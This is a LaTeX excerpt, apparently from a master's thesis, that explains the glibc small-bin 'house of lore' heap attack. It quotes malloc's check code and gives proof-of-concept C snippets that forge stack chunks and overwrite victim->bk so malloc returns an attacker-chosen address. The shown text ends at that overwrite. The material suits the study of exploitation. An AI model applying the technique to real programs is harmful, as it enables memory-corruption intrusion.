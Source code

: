\documentclass{masterthesis}
\begin{document}
This attack abuses the vulnerability inside small bins to modify memory in any location. If you check the malloc source code, you can see there is a check for small chunk request, so , if the requested chunk fits inside the small bins range, the heap manager use it 
\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}
In the following we have below code.
\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
  errstr = "malloc(): smallbin double linked list corrupted";
  goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}
AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. in other words, we can return a chunk to any address. now we explain it in a real sample :
\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}
At first, we allocate a small chunk, then calculate the real address of the chunk by subtracting header size from the data section address like always.
\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
 \end{lstlisting}
 Now we forge a fake chunk, point the bck pointer of buffer\_1 to the victim, the fwd pointer of buffer\_1 to buffer\_2, also, the bck pointer of buffer\_2 to buffer\_1. In this way, we can bypass the small bin security check. 
 \begin{lstlisting}[language=c,frame=tlrb]
 void *p5 = malloc(1000);
free((void*)victim);
 void *p2 = malloc(1200);
 \end{lstlisting}
 
To prevent merging the top chunk with a small one during free() we allocate a big chunk on top of the heap. After that by freeing the victim, it moves to the unsorted bin. In the following step, we allocate another chunk big enough, so, heap manager can't use the chunk inside an unsorted bin or small bin.
 \begin{lstlisting}[language=c,frame=tlrb]
victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack
 \end{lstlisting}
  
\end{document}
